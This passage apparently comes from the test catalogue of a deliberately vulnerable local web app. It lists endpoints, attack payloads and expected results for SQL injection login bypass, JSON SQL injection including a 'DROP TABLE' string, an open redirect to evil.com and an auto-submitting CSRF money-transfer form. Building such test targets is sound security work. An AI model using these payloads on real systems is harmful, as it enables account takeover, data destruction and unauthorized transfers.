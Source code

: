 #### 6. Boolean-Based SQL Injection (Login)
- **Endpoint**: `POST /login` (form: username, password)
- **Vulnerability**: Authentication bypass via SQL injection
- **Context**: String parameters in WHERE clause
- **Test Payloads**:
  ```sql
  Username: admin' OR '1'='1
  Password: anything
  Username: alice' OR '1'='1
  Password: anything
  ```
- **Expected Behavior**: Authentication bypassed, user logged in
- **Severity**: HIGH (CVSS 8.8)

#### 7. JSON API SQL Injection
- **Endpoint**: `POST /api/search-json` (JSON: {"q": "<payload>"})
- **Vulnerability**: SQL injection in JSON API
- **Context**: String parameter in LIKE clause
- **Test Payloads**:
  ```json
  {"q": "a' OR 1=1--"}
  {"q": "a' UNION SELECT name FROM products--"}
  {"q": "a'; DROP TABLE products--"}
  ```
- **Expected Behavior**: SQL errors or data extraction
- **Severity**: MEDIUM (CVSS 6.8)

### **Open Redirect**

#### 8. Unvalidated URL Redirection
- **Endpoint**: `GET /go?url=<payload>`
- **Vulnerability**: Open redirect vulnerability
- **Context**: Unvalidated URL parameter
- **Test Payloads**:
  ```
  https://evil.com
  javascript:alert('XSS')
  //evil.com
  /\/evil.com
  ```
- **Expected Behavior**: Redirects to external URL
- **Severity**: LOW (CVSS 2.6)

### **CSRF (Cross-Site Request Forgery)**

#### 9. State-Changing Operation Without CSRF Protection
- **Endpoint**: `POST /transfer` (form: to_user, amount)
- **Vulnerability**: CSRF vulnerability in money transfer
- **Context**: State-changing operation without token
- **Test Payloads**:
  ```html
  <form action="http://localhost:5001/transfer" method="POST">
    <input name="to_user" value="attacker">
    <input name="amount" value="100">
  </form>
  <script>document.forms[0].submit();</script>
  ```
- **Expected Behavior**: Transfer executed without user consent
- **Severity**: MEDIUM (CVSS 4.3)
